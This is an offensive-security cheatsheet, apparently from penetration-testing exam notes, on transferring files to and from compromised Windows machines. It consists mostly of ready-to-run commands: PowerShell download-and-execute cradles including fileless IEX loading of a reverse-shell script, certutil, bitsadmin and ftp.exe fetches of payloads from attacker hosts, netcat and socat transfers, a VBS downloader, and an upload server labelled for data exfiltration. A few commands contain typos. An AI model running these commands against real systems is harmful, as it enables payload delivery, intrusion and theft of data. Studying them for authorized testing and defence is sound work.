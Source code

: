 # Windows File Transfers

Check out [[Kali-Windows-Resources]] for selection of binaries and such to transfer! Other methods for [[File-Transfers]].

## FTP download
```bash
# copy a binary to /ftphome/; serve the binary on attackbox local ftp server then connect with target
sudo cp /usr/share/windows-resources/binaries/nc.exe /ftphome/
sudo systemctl restart pure-ftpd
```

## Netcat
[[Netcat-Cheatsheet]]
```powershell
# Listener on Windows system
nc -lvnp $PORT > tranfered.exe
# Push wget.exe onto windows system
nc -nv $IP $PORT < /usr/share/windows-resources/binaries/wget.exe
```
Drop NC one liner webserver
```bash
while(1) { cat index.html | nc -w1 -l -p 8080 }         
```

## Ncat

Target machine
```bash
tar cf - . | ncat $IP $PORT
```
Attack machine
```bash
ncat -nlvp $PORT | tar xf -
```

## Socat
Use [[Socat]], Host with:
```bash
sudo socat TCP4-LISTEN:$PORT,fork file:$filename
```
Transfer with
```powershell
socat TCP4:$IP:$PORT file:$filename,create
```

## PowerShell
```powershell
powershell -c "(New-Object System.Net.WebClient).DownloadString('http://$IP:$PORT/$bad.exe','$bad.exe')"
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://$IP:$PORT/$bad.exe','$bad.exe')

# Download and execute without saving to disk
IEX(New-Object System.Net.WebClient).DownloadString('http://$IP:$PORT/$bad.exe')

# -UseBasicParsing is deprecated as of powershell 6.0.0, running with in 6 has no affect 
Invoke-WebRequest http://10.10.10.10/bad.exe -UseBasicParsing
IEX(IWR http://10.10.10.10/Invoke-PowerShellTcp.ps1 -UseBasicParsing)
```
[IWR](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest?view=powershell-7.3)

## Non interactive PowerShell
```powershell
echo $storageDir = $pwd > wget.ps1   
echo $webclient = New-Object System.Net.WebClient >> wget.ps1   
echo $url = "http://$IP:$PORT/$bad.exe" >> wget.ps1   
echo $file = "$bad.exe" >> wget.ps1   
echo $webclient.DownloadFile($url,$file) >> wget.ps1
```
Then
```powershell
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

## SMB with Impacket
[[Impacket-Cheatsheet]]
```bash
impacket-smbserver scriptserver $(pwd) #-smb2support -user user -password pass
```
On remote:
```powershell
$pass = convertto-securestring 'pass' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('user', $pass)
New-PSDrive -Name user -PSProvider FileSystem -Credential $cred -Root \\$IP
```
Or - good for XP 
```powershell
net use H: \\$IP\$sharename /persistent:no
# You can add /user:$user password - not figure that out yet 
net use H: /Delete # To delete
```

```powershell
copy \$IP\ROPNOP\exploit.exe
#Or
xcopy \\$ip\scriptserver\$scriptname-here
```

## CertUtil
```powershell
certutil.exe -urlcache -split -f "http://$IP/$FILE"
certutil.exe -urlcache -split -f "http://$IP/$FILE" C:\Windows\Temp\$file
```

**TFTP** (Installed by default up to Windows XP and 2003, In Windows 7, 2008 and above needs to be explicitly added. For this reason tftp not ideal file transfer protocol in most situations.) [ref](https://github.com/pythonmaster41/Go-For-OSCP)
```powershell
# On attacker machine:
mkdir /tftp
chwon nobody: /tftp
atftpd --deamon --port 69 tftp
cp $FILE tftp
# On Windows:
tftp -i $IP GET $FILE
tftp -i $IP PUT $FILE
```

## VBS script
XP and 2003 lifesaver - BEWARE: "If creating on Linux and then transfer to windows then you may face issue sometime, use unix2dos before you transfer it in this case." 
 - Hakluke.
```vb
# wget.bs
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs 
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs 
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```
Run with:
```powershell
cscript wget.vbs http://attackerip/evil.exe evil.exe
```

## exe2hex plus Powershell
Have a `.exe` convert into a hex string:
```bash
# Transform binary making it non-interactive 
exe2hex -x nc64.exe -p nc.cmd
```
Good old copy and paste into a shell on Windows machine.

## UPX

Debug `.exe` (32bit machines only) filessize < 64kb!
```powershell
upx -9 nc.exe
wine exe2bat.exe nc.exe nc.txt
```

## PHP script - Upload HTTP Server for Data Exfiltration

Host a http server, make directory owned by www-data
```bash
mkdir /var/www/uploads -p
chown www-data: /var/www/uploads 
```
Script to placed in /uploads/
```php
<?php
$uploaddir = '/var/www/uploads/';

$uploadfile = $uploaddir . $_FILES['file']['name'];

move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>
```

Exfiltrate your way to a great day!
```powershell
powershell (New-Object System.Net.WebClient).UploadFile('http://$IP/upload.php', 'bad.exe')
```

## TFTP Upload Server for Data Exfiltration
```bash
apt install atftp
mkdir /tfp
shown nobody: /tftp
atftpd --daemon --port 69 /tftp
```

```powershell
tftp -i $ip put bigExfiltratedDataFile.nowmine
```

## Powercat
Powercat is awesome; see [[Powercat-Cheatsheet]] for more, but to file transfers with powercat:
```powershell
powercat -c 10.10.10.10 -p 54321 -i C:\Users\Administrator\powercat.ps1
```

## BitsAdmin

[BitsAdmin Documentation](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/bitsadmin-transfer) 
```powershell
bitsadmin /create 1 bitsadmin /addfile 1 http://Attacker_IP/payload.exe c:\Users\Guest\Desktop\payload.exe bitsadmin /RESUME 1 bitsadmin /complete 1
```

## FTP.exe

```powershell
cmd.exe /c "@echo open attacker.com 21>ftp.txt&@echo USER attacker>>ftp.txt&@echo PASS PaSsWoRd>>ftp.txt&@echo binary>>ftp.txt&@echo GET /payload.exe>>ftp.txt&@echo quit>>ftp.txt&@ftp -s:ftp.txt -v"
```


## References

[hakluke](https://hakluke.medium.com/haklukes-ultimate-oscp-guide-part-3-practical-hacking-tips-and-tricks-c38486f5fc97)
[pythonmaster41](https://github.com/pythonmaster41/Go-For-OSCP)
[hackersinterview](https://hackersinterview.com/oscp/oscp-cheatsheet-windows-file-transfer-techniques/)
[THM Room Living off the Land](https://tryhackme.com/room/livingofftheland)
[sushant747](https://sushant747.gitbooks.io/total-oscp-guide/content/transfering_files_to_windows.html)
[LOLBAS](https://lolbas-project.github.io/#/download)
[IWR Documentation](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest?view=powershell-7.3)
[BitsAdmin Documentation](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/bitsadmin-transfer) 